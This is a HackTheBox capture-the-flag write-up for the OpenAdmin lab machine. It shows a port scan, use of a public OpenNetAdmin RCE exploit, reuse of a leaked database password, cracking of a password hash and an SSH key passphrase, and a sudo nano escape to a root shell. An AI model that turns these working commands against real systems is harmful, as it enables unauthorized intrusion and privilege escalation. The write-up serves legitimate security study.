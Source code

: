 ```yaml
---
tags:
  - htb
revisit: false
---
```

# HackTheBox: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Spoiler Summary
> This Linux server is running a vulnerable version of [OpenNetAdmin](https://opennetadmin.com/). Password re-use allows lateral movement from the web user (`www-data`) to another admin user, `jimmy`. A web server bound to `localhost` provides access to another admin user's private key. Privilege escalation is then possible via Sudo, granting root access to `nano` which is [trivially escapable](https://gtfobins.github.io/gtfobins/nano/).

## Services

### TCP

First, a [port scan with nmap](nmap-20240610.md):

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing for directories uncovers `/music`, and a link from there led to `/ona`:

![](_/htb-openadmin-20240701-1.png)

This is [OpenNetAdmin](https://opennetadmin.com/), with plenty of attack surface:

> OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. A full CLI interface is available as well to use for scripting and bulk work.

## RCE

Here is how I achieved remote code execution (RCE) on the target system.

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

Here's how I was able to accomplish privilege escalation (PE) for full control of the system.

In the server's web root, the file `local/config/database_settings.inc.php` contains database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for users `root` and `joanna`, neither of which worked, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php

jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:

![](_/htb-openadmin-20240701-3.png)

That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:

![](_/htb-openadmin-20240701-2.png)

The credentials `jimmy:Revealed` give us the private key for `joanna`:

![](_/htb-openadmin-20240701-4.png)

There's a passphrase for the private key, and the previously discovered "ninja" password didnt work. So, I used `john` to crack it, which only takes a few seconds:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

Elevating privileges is possible via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv

joanna@openadmin:~$ file /opt/priv
/opt/priv: empty

joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a shell command via `^R^X` and passing `reset; sh 1>&0 2>&0`, which provides an interactive `root` shell.

